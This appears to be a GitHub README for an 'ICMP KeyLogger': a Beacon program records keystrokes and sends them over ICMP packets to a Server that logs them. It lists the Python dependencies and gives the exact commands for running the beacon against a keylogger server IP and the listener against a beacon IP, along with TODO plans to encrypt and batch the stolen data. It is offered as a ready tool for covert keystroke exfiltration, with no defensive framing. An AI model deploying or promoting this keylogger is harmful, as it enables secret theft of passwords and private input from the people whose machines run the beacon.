 
# ICMP KeyLogger

## Introduction
ICMP KeyLogger is a tool designed to capture and transmit keystrokes over the network using ICMP packets. It is divided into two main components: the Beacon, which captures keystrokes and sends them, and the Server, which receives and logs these keystrokes.

### TODO
- Implement encryption for keystroke data.
- Group packets to optimize network traffic instead of sending keystrokes instantly.

## Requirements
### Windows
- [npcap](https://nmap.org/npcap/)
- pynput
- scapy

### Linux
- pynput
- scapy

## Installation
Install Python dependencies using pip:
```bash
pip install pynput scapy
```

## Usage
### Identifying Network Interface on Windows
To find the full name of the network interface:
```cmd
ipconfig /all
```
Use the Description field of the relevant interface.

### Running the Beacon
Run the Beacon component using the following command. Replace `[Description from ipconfig /all]` with the actual description of your network interface and `[keylogger server IP]` with the IP address of the server.
```cmd
py ICMPbeacon.py -i "[Description from ipconfig /all]" -d [keylogger server IP]
```

### Running the Server
Run the Server component with the following command. Replace `[listening interface]` with the network interface the server should listen on and `[beacon IP]` with the IP address of the beacon.
```bash
sudo python3 ICMPlogServ.py -i [listening interface] -d [beacon IP]
```
